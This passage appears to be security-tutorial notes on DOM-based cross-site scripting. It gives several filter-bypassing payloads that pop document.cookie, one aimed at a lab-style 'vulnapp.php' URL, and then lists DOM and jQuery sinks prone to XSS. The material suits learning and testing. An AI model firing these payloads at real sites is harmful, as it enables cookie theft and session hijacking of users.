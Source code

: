 ```javascript
 /?user=')|eval('onload=a'.concat('lert(document.cookie)'))//
```

```javascript
http://192.168.1.3/web/vulnapp.php%20/?user=%27)|eval(%27onload=a%27.concat(%27lert(document.cookie)%27))//#!
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

```javascript
 /?user='),alert?.('document.cookie//
```

Which sinks can lead to DOM-XSS vulnerabilities?

&#x20;The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:

```
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent

```

he following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:

```
add()
after()
append()
animate()insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```
